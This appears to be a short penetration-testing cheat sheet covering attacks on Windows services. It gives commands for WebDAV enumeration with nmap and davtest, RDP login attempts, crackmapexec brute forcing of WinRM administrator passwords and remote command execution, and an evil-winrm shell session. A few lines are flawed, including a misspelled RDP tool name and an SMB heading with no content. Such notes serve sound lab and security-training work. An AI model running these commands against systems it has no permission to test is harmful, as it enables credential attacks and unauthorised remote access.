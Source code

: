 The command below should be used after enumerating the port and finding the services running on that specific port using nmap.
# WEBDAV ( WEB-BASED DISTRIBUTED AUTHORITY & VERSIONING)

## NMAP

this script will  perform a basic nmap scan on the target IP address. It uses the following options: --script  http-webdav-scan.
it will scan if there's any webdav directory on the target. 

```bash
nmap -p 80 --script http-enum ,http-webdav $IP
```

## DAVTEST

```bash
davtest -auth username:password -url http://$IP/webdav
```

# SMB ( SERVER MESSAGE BLOCK)

# RDP (Remote Desktop Protocol)

BruteFOrce >> 

```bash
xfreedp /u:administrator /p:password /v:$IP:3389
```

# WinRM ( Windows Remote Management Protocol)

## crackmapexec

### brute force

```bash
$ crackmapexec winrm $IP -u administrator -p passwordlist.txt
```

### command execution

```bash
$ crackmapexec winrm $IP -u administrator -p correct_password -x "whoami"
```

### shell session evil-winrm

this will provide a command session shell to  the target machine using windows remote management protocol.
```bash
$ evil-winrm.rb winrm -i $IP -u administrator -p correct_password 
```